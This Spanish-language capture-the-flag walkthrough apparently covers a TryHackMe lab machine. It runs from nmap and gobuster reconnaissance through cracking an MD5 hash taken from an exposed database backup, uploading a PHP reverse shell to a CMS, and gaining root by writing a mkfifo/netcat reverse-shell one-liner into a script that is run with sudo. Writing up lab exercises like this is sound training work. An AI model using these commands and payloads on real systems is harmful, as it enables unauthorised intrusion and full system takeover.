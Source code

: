 Lo primero que haremos será lanzar un escaneo con nmap -sV -vv 10.10.18.129:

![img](img/img01.png)
 
Luego vemos con otro nmap: nmap -A -p- -T4  10.10.18.129
Que hay dos puertos abiertos: SSH and HTTP

![img](img/img02.png)
 
Luego haremos un fuzzing a la pagina con el comando: gobuster dir -u http://10.10.182.8 -w /usr/share/wordlists/dirb/common.txt

![img](img/img03.png)

Vemos que es interesante /content y nos vamos a la web y buscamos ip/content.

Hacemos otro fuzzing a /content : gobuster dir -u http://10.10.18.129/content -w /usr/share/wordlists/dirb/common.txt

![img](img/img04.png)
 
Vamos a ver ip/content/as si es interesante y vemos un login:

![img](img/img05.png)

Si vamos a http://10.10.18.129/content/inc/ veremos un index con contenido interesante:

![img](img/img06.png)
 
La parte más interesante en mysql_backup:

![img](img/img07.png)
 
Y si entramos dentro de la carpeta vemos que hay un backup: 

![img](img/img08.png)
 
Vemos que esta el usuario y la contraseña encriptada en MD5: (User: manager y contraseña: 42f749ade7f9e195bf475f37a44cafcb)

![img](img/img09.png)

Así que usamos este comando para poder romperla:
sudo hashcat -m 0 hash(nombre fichero donde esta el hash) /usr/share/wordlists/rockyou.txt                            

Y la rompemos:
Password123
Entramos al anterior login en el navegador: ip/content/as
Manager
Password123
Y entramos:

![img](img/img10.png)
 
Luego usamos esta reverse Shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
REVERSE SHELL: Cambiamos la ip ( DE NUESTRA MAQUINA KALI TUN0)  y el puerto y nos vamos al apartado ads de la página y pegamos la reverse Shell y le damos a done:

![img](img/img11.png)
 
Ahora nos vamos a la terminal y ponemos: 
rlwrap nc -lvnp 4444

Ahora nos iremos al navegador y pondremos ipmaquina/content/inc/ads:

![img](img/img12.png)
 
UPGRADEAR SHELL
Y le damos click a la Shell y ya tendremos la reverse Shell en nuestra consola, ahora la upgradeamos con el comando:
python3 -c 'import pty;pty.spawn("/bin/bash")'
o también con:
python -c 'import pty;pty.spawn("/bin/bash")';
export SHELL=bash
export TERM=xterm-256color

![img](img/img13.png)
 
Y ahí esta la flag del usuario: (/home/itguy/user.txt)

![img](img/img14.png)
 
Respuesta: THM{**************}

Ahora haremos sudo -l y nos saldrán varias cosas, tendremos que correr el script backup.pl

![img](img/img15.png)
 
Para ello nos vamos a esa ruta y leemos el fichero:

![img](img/img16.png)
 
Ahora haremos un nano !$ (del archivo /etc/copy.sh)
OTRA OPCIÓN HACER ESTO: 
www-data@THM: echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc miipkali 5554(puerto) >/tmp/f” > /etc/copy.sh

EL COMANDO
echo ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <our IP> 4444 >/tmp/f' > /etc/copy.sh
Y cambiamos la ip por la nuestra (Kali) y otro puerto (5554) por ejemplo
Y ahora estar escuchando con netcat:

![img](img/img17.png)
 
Ahora hacemos un sudo /usr/bin/perl /home/itguy/backup.pl :

![img](img/img18.png)
 
Y ya se nos abrirá la Shell como root:

![img](img/img19.png)
 
Y nos vamos a /root y cat root.txt

![img](img/img20.png)
 
